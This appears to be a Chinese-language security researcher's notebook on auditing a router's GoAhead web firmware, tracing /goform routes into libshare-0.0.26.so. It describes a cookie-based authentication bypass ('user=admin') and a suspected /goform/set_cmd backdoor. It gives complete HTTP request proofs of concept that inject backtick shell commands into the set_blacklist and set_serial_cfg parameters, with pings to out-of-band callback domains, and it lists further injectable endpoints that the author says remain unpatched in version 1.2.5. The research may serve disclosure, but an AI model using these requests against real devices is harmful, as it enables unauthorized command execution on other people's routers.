








# 0. 路由架构

web端的getinfo.js或是什么的html，找到`/goform/xxx`这种

然后在goahead二进制文件的`formDefineCGIjson`找对应函数，

找到类似这种：

然后再用这个在那个`libshare-0.0.26.so`里面找。


# 1. 通用的 越权

web端的cookie之类的都没有给SESSION ID等唯一标识符，cookie是这么写的：

```
Cookie: platform=0; user=admin
```

。。。

然后呢，只要后台界面有人处于登录状态，我们就可以直接在未登录状态访问对应api接口获取信息，或者执行操作。

比如：

```
/goform/get_router_info
```


我是在另一台电脑上登录的后台，然后这台电脑就能访问。。。




绝了。。。


# 后续分析思路

后面的再想找就不简单了。这个网上找的固件bin貌似和路由器里面的不大一样。。。

只能盲测了吗。。。

好吧，貌似要 cpio-root这个。。。不是 squafhsroot。。。

逆天了。。。

所以，这玩意儿并不是基于 openwrt的。。。


---

关键二进制文件在 bin/goahead，写的还很友好~

```
formDefineCGIjson
```




这个goahead类似一个网关，实际处理是在 lib/libshare-0.0.26.so里面。

所以重点就看这两个二进制文件。

---


# 2. /goform/set_cmd 命令执行 （隐藏后门？？？）




审着审着就感觉不对劲了：

libshare-0.0.26.so的bs_SetCmd函数：



楽。。。


# 3. /goform/set_blacklist 命令注入

）

```
POST /goform/set_blacklist HTTP/1.1
Host: 192.168.16.1
Content-Length: 58
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: http://192.168.16.1
Referer: http://192.168.16.1/admin/urlBlack.html
Accept-Encoding: gzip, deflate, br
Cookie: platform=0; user=admin
Connection: keep-alive

type=setmacblack&mac=123.123.123.123;`ping -c 1 poc.jnv9dw9n.eyes.sh`;#&enable=1
```




还是那个so的`bs_SetMacBlack`：




---

再找一个洞吧，然后就把文档写了，交了。

哦对，先把固件版本升到最新的1.2.5：



升了发现上面的洞还在。。。那可是太好了呐~


就这三个吧，目前。后面有后面的事情了。

---

# 4. /goform/set_serial_cfg 命令注入

```
POST /goform/set_serial_cfg HTTP/1.1
Host: 192.168.16.1
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.16.1/login.asp
Accept-Encoding: gzip, deflate, br
Cookie: Isfist=true; platform=0; user=admin
If-Modified-Since: Tue Sep 29 09:44:52 2020
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

type=setserialinfo&network=UDP&port=&domain=&ser_status=1&baud=`ping -c 1 fdzv0d7m.eyes.sh`&COM=&data=&verify=&stop=&flow=
```

~


so中的`bs_SetSerial`


# 5. /goform/set_LimitClient_cfg 命令注入

不是我找的呐，大二的找的。当然也记着，笑）

跟签名那个blacklist一样的，mac那儿。


# 6. /goform/set_pamode 命令注入 (待定)


# 7. /goform/set_manpwd 命令注入

routepwd参数

是先存进去，又取出来拼接
